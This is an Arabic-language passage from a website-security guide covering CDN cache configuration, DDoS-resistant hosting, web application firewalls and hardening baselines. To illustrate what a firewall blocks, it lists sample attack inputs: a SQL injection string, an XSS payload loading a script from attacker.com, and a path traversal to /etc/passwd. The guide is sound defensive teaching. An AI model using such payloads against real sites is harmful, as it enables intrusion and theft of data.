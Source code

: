 بالإضافة إلى ذلك، توجد بعض التكوينات الخاطئة التي يمكن أن تتسبب في عدم قيام خادم حافة شبكة توصيل المحتوى بالتعرف على المحتوى الثابت مقابل المحتوى الديناميكي. على سبيل المثال، إذا كان موقع الويب يحتوي على صفحة ويب مثل www.example.com/profile، لن تعرف شبكة توصيل المحتوى تلقائيًا أن الصفحة تحتوي على معلومات خاصة. تُعدّ الطريقة الأكثر شيوعًا للتغلب على ذلك هي تكوين شبكة توصيل المحتوى على ذاكرة التخزين المؤقت استنادًا إلى رؤوس الاستجابة ثم تعيين رأس تحكم-ذاكرة التخزين المؤقت الذي تكون قيمته خاصة أو مشابهة. سيُخبر هذا شبكة توصيل المحتوى أن الصفحة تحتوي على معلومات خاصة ولن يعطي المحتوى ذاته إلى مستخدمين مختلفين. وستختلف تفاصيل كيفية تكوينه واستخدامه بين مزودي شبكة توصيل المحتوى لذا تأكد من الرجوع إلى وثائق مزود الخدمة قبل إعداد شبكة توصيل المحتوى. من الجيد أيضًا أن يكون لديك موقع ما قبل الإصدار تم تكوينه باستخدام نفس شبكة توصيل المحتوى وإعدادات موقع المنتج وبهذه الطريقة يمكن لمديري الموقع التحقق من التغييرات الرئيسية قبل بدء التشغيل.
استضافة مقاومة لهجمات حجب الخدمة
يجمع بعض مقدمي الخدمات بين استضافة المواقع ومقاومة حجب الخدمة، وبشكل عام يكون لديهم نفس النوع من التقنيات والممارسات التي يستخدمها مقدمو خدمة شبكة توصيل المحتوى ولكنها مقترنة باستضافة الويب. يتجنب ذلك المشكلة المذكورة أعلاه المتعلقة بحماية خوادم المنشأ ولكنه يعتمد على توفير المزوّد لكل من خدمات الحماية والاستضافة التي تحتاجها. تشمل أمثلة مقدمي خدمات الاستضافة المقاومة لحجب الخدمة كوريوم (Qurium) وغرين هوست (Greenhost).
قيود شبكة توصيل المحتوى المقاومة لحجب الخدمة ومزوّدي خدمة الاستضافة
ربما لاحظت أن الحماية التي توفرها شبكة توصيل المحتوى ومقدمو خدمات الاستضافة المقاومة لحجب الخدمة تغطي غالبية الهجمات، لكن المواد المذكورة أعلاه استبعدت الهجمات على مستوى التطبيق. قد تكون هناك عيوب في موقع الويب تسمح بهجمات حجب خدمة بأحجام منخفضة جدًا. لا تكون الدفاعات القياسية ضد هجمات حجب الخدمة فعّالة في هذه الحالة، ولكن قد يتمكن موظفو الدعم والاستجابة السريعة في شبكة توصيل المحتوى ومقدمو خدمات الاستضافة من المساعدة في دعم مالكي مواقع الويب في حالة وجود هجوم حجب خدمة نشط على مستوى التطبيق ضد موقعهم على الويب. 
يغطى الدفاع ضد الهجمات على مستوى التطبيق بتعمّق أكبر في الموضوع الفرعي بعنوان الاستجابة لحوادث حجب الخدمة (الموضوع الفرعي 3 في مسار التعلّم هذا).
استخدام جدران حماية تطبيقات الويب
تُعدّ جدران حماية تطبيقات الويب أجهزة شبكة تقع بين المستخدم النهائي والخادم الأصلي لموقع الويب مثل شبكة توصيل المحتوى، وبينما توفر شبكة توصيل المحتوى الحماية ضد هجمات حجب الخدمة، يحاول جدار حماية تطبيقات الويب الحماية من هجمات الاختراق. تقوم جدران حماية بفحص الطلبات الواردة وتحظر الطلبات التي تبدو ضارة، على سبيل المثال المعلمات التي تحتوي على أشياء مثل ' أو1=1;-- (SQL injection) ،`"><script src="http://attacker.com/payload.js"><z a="` (البرمجة النصية عبر المواقع (XSS))، أو ../../../../../../etc/passwd (اجتياز الدليل). في حين أنه لا يمكن لأي جدار حماية تطبيقات ويب توفير حماية مثالية ضد القرصنة، إلا أنها قد يكون فعّالًا بما يكفي لحماية الموقع من الاختراق ويجعل دائمًا مهمة المهاجم في تحديد نقاط الضعف أكثر صعوبة. وفي معظم الحالات، لن يعطل جدار حماية تطبيقات الويب الجيد المحتوى السليم ولكن ذلك أمر يمكن أن يحصل. على سبيل المثال، إذا كان الموقع منتدى مناقشة يتحدث عن تطوير الويب الآمن فمن المرجح أن يحجب جدار حماية تطبيقات الويب المشاركات السليمة حول تقنيات الهجوم، كما هو الحال مع شبكات شبكة توصيل المحتوى، من الجيد جدًا أن يكون لديك موقع ما قبل الإصدار حيث يمكن اختبار التغييرات قبل نشرها.
تحتوي معظم شبكات توصيل المحتوى المقاومة لحجب الخدمة أيضًا على وظائف جدار حماية تطبيقات الويب. يوجد أيضًا موفرو جدار حماية تطبيقات ويب متخصصون بتقديم خدمات إضافية تشمل بشكل عام حجب الخدمة. على سبيل المثال، سوكوري (Sucuri) هو مزود جدار حماية تطبيقات ويب يوفر أيضًا حماية حجب خدمة وبعض قدرات النسخ الاحتياطي والاستجابة للحوادث، بالإضافة إلى وورد فنس (WordFence) المزود لجدار حماية تطبيقات ويب والمتخصص في حماية المواقع المبنية على وورد برس ومنع محاولات القرصنة العامة وهجمات حجب الخدمة، يحاول منع الهجمات التي تستهدف مواقع وورد برس على وجه التحديد. 
توجد أيضًا جدران حماية تطبيقات ويب تصمم لتعمل على ذات الخادم أو الشبكة الخاصة بموقع الويب التي يحميها، ومن الأمثلة على ذلك منتجات باراكودا (Barracuda) وإف 5 (F5) باهظة الثمن، وكذلك الحلول مفتوحة المصدر مثل مود سيكيوريتي (ModSecurity). لاحظ أن هذه الأنظمة بشكل عام لا توفر حماية حجب الخدمة من تلقاء نفسها.
معززات حماية التكوين
تعتمد مواقع الويب بشكل عام تقريبًا على نوع إطار عمل يتعامل مع معظم أعمال خدمة صفحات الويب، وقد يكون هذا إطار عمل منخفض المستوى، مثل إن جي آي إن إكس (nginx) يتعامل فقط مع الشبكات وبروتوكول نقل نص تشعبي الأساسي، أو إطار عمل عالي المستوى للغاية مثل ووردبرس الذي يتعامل مع كل شيء باستثناء محتوى الموقع. في الغالبية العظمى من الحالات يوفر إطار العمل مجموعة من الميزات والقدرات وخيارات تكوين أخرى لا يحتاج موقع الويب معظمها. تُعرّض هذه الميزات والتكوينات غير الضرورية موقع الويب لمخاطر إضافية من خلال زيادة الأجزاء المعرضة للهجوم (واحتمال وجود أخطاء مكشوفة) أو تكوينات غير آمنة بحد ذاتها.
في حين أنه من الممكن دراسة قدرات إطار العمل يدويًا وتحديد كيفية تمكين الميزات والتكوينات بمفردها، إلا أنه من الأسهل والأكثر فعالية بشكل عام استخدام أداة أو مجموعة من خطوط الأساس الافتراضية وعادة ما تُمثل معززات حماية التكوين هذه آلاف الساعات من العمل لتأمين النظام قدر الإمكان دون جعله غير قابل للاستخدام. 
كما هو الحال مع أي تغييرات في النظام من المستحسن وربما الضروري حتى وجود بيئة منفصلة لاختبار التغييرات، بالإضافة إلى وجود عملية اختبار للتأكد من أن كل شيء يعمل بشكل صحيح قبل نشر التغييرات على المنتج. قد يعتمد الموقع على تكوين غير آمن أو ميزة لا تستخدم كثيرًا كي يعمل بشكل صحيح، وفي هذه الحالة من الأفضل التقاط ذلك قبل وضع موقع قيد الاستخدام ومُعاد تهيئته.